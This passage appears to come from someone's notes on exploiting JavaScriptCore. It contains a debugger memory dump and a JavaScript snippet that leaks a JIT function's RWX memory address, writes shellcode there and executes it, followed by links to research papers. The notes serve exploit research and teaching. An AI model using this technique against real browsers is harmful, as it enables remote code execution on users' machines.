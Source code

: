 ```
gef➤  set $obj = (('JSC::JSObject'*) 0x7f9dd5fcbcd0)
gef➤  x/10xg $obj->butterfly()
0x7f9dd73fe5f8: 0x402abd70a3d70a3d      0x402cbd70a3d70a3d
0x7f9dd73fe608: 0x0000000400000001      0x00007f9dd5fdfe00
0x7f9dd73fe618: 0x0000000000000000      0x0000000000000000
0x7f9dd73fe628: 0x0000000000000000      0x0000000000000000
0x7f9dd73fe638: 0x0000000000000000      0x0000000000000000
```

With this we have a **read primitive** for internal memory addresses; but why?

TODO

Now that we have the read/write primitives and we can create objects
"on demand" we can use our knowledge about the internal structure of
``JSFunction`` to finally execute some code

```js
// Now the easy part:
//   1. Leak a pointer to a JIT compiled function
//   2. Leak the pointer into executable memory
//   3. Write shellcode there
//   4. Call the function
var func = makeJITCompiledFunction();
var funcAddr = addrof(func);
print("[+] Shellcode function object @ " + funcAddr);

var executableAddr = memory.readInt64(Add(funcAddr, 24));
print("[+] Executable instance @ " + executableAddr);

var jitCodeAddr = memory.readInt64(Add(executableAddr, 16));
print("[+] JITCode instance @ " + jitCodeAddr);

var codeAddr = memory.readInt64(Add(jitCodeAddr, 32));
print("[+] RWX memory @ " + codeAddr.toString());

print("[+] Writing shellcode...");
memory.write(codeAddr, shellcode);

print("[!] Jumping into shellcode...");
func();
```

## Linkography

### JSC

 - [A New Bytecode Format for JavaScriptCore](https://webkit.org/blog/9329/a-new-bytecode-format-for-javascriptcore/)
 - [Introducing the WebKit FTL JIT](https://webkit.org/blog/3362/introducing-the-webkit-ftl-jit/)
 - [JavaScriptCore CSI: A Crash Site Investigation Story](https://webkit.org/blog/6411/javascriptcore-csi-a-crash-site-investigation-story/)
 - [Thinking outside the JIT Compiler: Understanding and bypassing StructureID Randomization with generic and old-school methods](https://i.blackhat.com/eu-19/Thursday/eu-19-Wang-Thinking-Outside-The-JIT-Compiler-Understanding-And-Bypassing-StructureID-Randomization-With-Generic-And-Old-School-Methods.pdf)
 - [Hack The Real: An exploitation chain to break Safari browser](https://gts3.org/2019/Real-World-CTF-2019-Safari.html)
 - [INVERTING YOUR ASSUMPTIONS: A GUIDE TO JIT COMPARISONS](https://www.zerodayinitiative.com/blog/2018/4/12/inverting-your-assumptions-a-guide-to-jit-comparisons)
 - [JavaScriptCore, the WebKit JS implementation](https://wingolog.org/archives/2011/10/28/javascriptcore-the-webkit-js-implementation)
 - [inside javascriptcore's low-level interpreter](https://wingolog.org/archives/2012/06/27/inside-javascriptcores-low-level-interpreter)